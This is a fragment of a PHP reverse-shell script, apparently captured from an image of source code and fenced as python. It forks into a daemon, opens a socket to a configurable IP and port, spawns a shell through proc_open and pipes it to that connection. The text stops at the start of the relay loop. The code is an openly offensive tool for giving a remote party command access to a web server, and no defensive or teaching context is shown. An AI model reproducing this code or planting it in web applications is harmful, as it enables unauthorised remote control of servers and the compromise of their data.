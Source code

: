 ```python
	
	if ($pid == -1) {
		printit("ERROR: Can't fork");
		exit(1);
	}
	
	if ($pid) {
		exit(0);  // Parent exits
	}

	// Make the current process a session leader
	// Will only succeed if we forked
	if (posix_setsid() == -1) {
		printit("Error: Can't setsid()");
		exit(1);
	}

	$daemon = 1;
} else {
	printit("WARNING: Failed to daemonise.  This is quite common and not fatal.");
}

// Change to a safe directory
chdir("/");

// Remove any umask we inherited
umask(0);

//
// Do the reverse shell...
//

// Open reverse connection
$sock = fsockopen($ip, $port, $errno, $errstr, 30);
if (!$sock) {
	printit("$errstr ($errno)");
	exit(1);
}

// Spawn shell process
$descriptorspec = array(
   0 => array("pipe", "r"),  // stdin is a pipe that the child will read from
   1 => array("pipe", "w"),  // stdout is a pipe that the child will write to
   2 => array("pipe", "w")   // stderr is a pipe that the child will write to
);

$process = proc_open($shell, $descriptorspec, $pipes);

if (!is_resource($process)) {
	printit("ERROR: Can't spawn shell");
	exit(1);
}

// Set everything to non-blocking
// Reason: Occsionally reads will block, even though stream_select tells us they won't
stream_set_blocking($pipes[0], 0);
stream_set_blocking($pipes[1], 0);
stream_set_blocking($pipes[2], 0);
stream_set_blocking($sock, 0);

printit("Successfully opened reverse shell to $ip:$port");

while (1) {
```